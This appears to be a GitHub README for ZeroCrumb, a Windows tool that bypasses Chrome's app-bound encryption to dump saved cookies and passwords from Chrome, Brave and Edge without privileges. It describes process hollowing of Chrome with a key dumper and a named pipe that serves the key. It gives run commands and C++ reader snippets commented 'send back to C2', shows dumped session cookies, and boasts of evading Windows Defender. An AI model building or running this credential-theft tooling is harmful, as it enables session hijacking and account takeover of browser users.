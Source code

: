 
# ZeroCrumb

Dumping App Bound Protected Credentials & Cookies Without Privileges.

## Explanation

After this, ZeroCrumb decrypts the cookies/passwords for the specified browser with the key fetched earlier.

## Merits With The Named Pipe Approach
Usage of named pipes in ZeroCrumb allows any program, As long as it can use the Windows API, To connect to the ZeroCrumb named pipe and read the App Bound Key from it.

## Using ZeroCrumb As A Library
If you want to use ZeroCrumb as a library, You will need to compile a DLL that exports a function that does the hollowing of chrome with the key dumper. You might also need to embed the key dumper PE in the .rsrc section of the compiled DLL and later fetch it with the application resources Windows APIs.

## Usage
You can run this in any directory of your choice as long as the key dumper is in the same directory.
```
ZeroCrumb.exe <BROWSER_TYPE> <DUMP_TYPE>
```
```
Browser Types:
Chrome -> 0
Brave -> 1
Edge -> 2

Dump Types:
Cookies
Passwords
```

## Code Usage
ZeroCrumb provides an easy-to-use **CookieReader** & **PasswordReader** classes:
```cpp
auto reader = new CookieReader(cookiesPath.c_str(), key);

reader->initSqliteDb();
reader->prepare(queries::cookies);
reader->populateCookies();

for (auto& cookie : reader->cookies) {
string name = cookie->name;
string site = cookie->site;
string path = cookie->path;
string cookieValue = cookie->cookie;
// dump to file, send back to C2, etc...
}
```

```cpp
// keep in mind passwords aren't encrypted using the app bound key (yet)
auto reader = new PasswordReader(passwordsPath.c_str(), key);

reader->initSqliteDb();
reader->prepare(queries::passwords);
reader->populatePasswords();

for (auto& password : reader->passwords) {

auto name = password->name;
auto site = password->site;
auto passwordValue = password->password;
// dump to file, send back to C2, etc...
}
```

## Depedencies
```
sqlite3
libsodium
```

## Output Example
```
$ ZeroCrumb.exe 0 Cookies
[*] Reading From Pipe...
App Bound Key: 980f8ea8af3299d966a26242.....
============
Name: SIDCC
Site: .
Path: /
Cookie: AKEyXzXxD19T0KLMkrMC-eUXkrnEFi92OXq6rj1vydvmdL73olBVQGRQ4cG_hK5sqPhO1rLd1CM
============
Name: __Secure-1PSIDCC
Site: .
Path: /
Cookie: AKEyXzXXC8_MNDlVbAaw512aXu-QJkl0uKNW66rhjeufotzoJhT3OPN5TuCQnfKS8l57_WGfDw
============
Name: __Secure-3PSIDCC
Site: .
Path: /
Cookie: AKEyXzVVySM4FWl9itegCN2evcSmBvGc7_iXHqkKZ6VYPKmR--_LsHx1Aflar6SU4nyJiDaFq028
============
Name: udid
Site: .
Path: /
Cookie: 0dd5b8bb-8c5b-47f3-87f9-1db8fa7d885f
============
```

## Notes
You can modify ZeroCrumb to work with any type of credential other than cookies & passwords.

## Issues
- Debug build doesn't output the correct key

## Disclaimer
This is by no means the most stealthy implementation of this bypass, It can get detected by checking for specific strings, hooking APIs, etc.

By the time I'm testing this, It got past Windows Defender but I haven't checked other AVs.

I'll leave making the bypass stealthier as an exercise for the user if this bypass implementation gets signatured in the future.

## Credits


